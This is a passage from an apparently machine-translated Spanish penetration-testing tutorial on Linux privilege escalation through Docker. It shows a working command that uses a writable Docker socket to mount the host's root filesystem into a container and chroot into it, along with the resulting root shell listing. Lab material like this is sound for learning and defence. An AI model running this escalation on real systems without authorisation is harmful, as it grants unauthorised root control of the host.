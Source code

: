 Para ver a qué imágenes existen y a cuáles podemos acceder, podemos usar el siguiente comando:

  Estibador

```shell-session
docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```

#### Docker Socket

Un caso que también puede ocurrir es cuando el zócalo de Docker es redactado. Por lo general, este enchufe se encuentra en`/var/run/docker.sock`. Sin embargo, la ubicación puede ser comprensiblemente diferente. Porque básicamente, esto solo puede ser escrito por el grupo Root o Docker. Si actuamos como usuario, no en uno de estos dos grupos, y el Socket de Docker todavía tiene los privilegios de ser escritos, entonces aún podemos usar este caso para aumentar nuestros privilegios.

  Estibador

```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```